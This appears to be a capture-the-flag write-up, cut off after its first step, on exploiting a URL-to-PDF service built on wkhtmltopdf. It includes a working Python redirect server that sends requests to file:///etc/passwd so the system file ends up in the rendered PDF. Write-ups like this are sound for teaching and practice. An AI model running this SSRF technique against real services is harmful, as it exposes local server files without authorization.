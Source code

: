 Through initial testing with legitimate URLs (like google.com), we can see the application successfully converts webpages to PDFs.

![[Pasted image 20250513181319.png]]

## Analyzing the Application

By examining the application behavior, we can determine:

1. The application accepts a URL as input via a JSON payload with a `url` field
2. It passes this URL to wkhtmltopdf for rendering
3. Error messages reveal the use of wkhtmltopdf in the backend
4. The application doesn't appear to have proper URL validation

## Exploitation Strategy

The exploitation strategy involves:

1. Creating a web server that responds with a redirect to `file:///etc/passwd`
2. Making the PDFy application request our malicious server
3. wkhtmltopdf will follow the redirect to the local file
4. The contents of `/etc/passwd` will be included in the generated PDF

## Detailed Exploitation Steps

### Step 1: Create a Redirect Server

We set up a simple HTTP server that redirects all requests to `file:///etc/passwd`. Since PHP wasn't available in my local, we used Python:

```python
import http.server
import socketserver

class RedirectHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        print("Received request - redirecting to file:///etc/passwd")
        self.send_response(302)
        self.send_header("Location", "file:///etc/passwd")
        self.end_headers()

PORT = 8081
Handler = RedirectHandler

with socketserver.TCPServer(("", PORT), Handler) as httpd:
    print(f"Server running at port {PORT}")
    httpd.serve_forever()
```

This server listens on port 8081 and responds to all GET requests with a 302 redirect to `file:///etc/passwd`.

![[Pasted image 20250513182039.png]]
